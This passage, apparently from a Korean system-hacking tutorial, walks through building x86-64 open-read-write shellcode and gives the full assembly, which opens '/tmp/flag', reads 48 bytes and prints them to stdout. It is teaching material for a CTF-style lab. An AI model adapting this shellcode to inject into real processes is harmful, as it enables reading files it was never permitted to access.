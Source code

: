 4) rdx는 파일로부터 읽어낼 데이터의 길이이므로 rdx = 0x30 을 대입합니다.


위의 과정을 셸코드로 적으면 아래와 같습니다.


```bash
mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall         ; read(fd, buf, 0x30)
```

<br />

#### 3) write(1, buf, 0x30)

1) 출력은 표준출력(stdout)을 사용할 것이므로, rdi를 0x1로 설정합니다.

2) 출력할 내용을 담고 있는 buf를 그대로 이용할 것이기 때문에, 2번 read()에서 사용한 buf인 rsi를 그대로 사용해도 괜찮습니다.

3) 출력할 길이는 똑같이 0x30 이기 때문에, 2번 read()에서 사용한 rdx를 그대로 사용해도 괜찮습니다.

4) write는 1번 시스템콜이므로 rax에 0x1을 넣어줍니다.


위의 과정을 셸코드로 적으면 아래와 같습니다.


```bash
mov rdi, 0x1
mov rax, 0x1
syscall
```

<br />

#### 4) 전체 셸코드

```bash
push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```
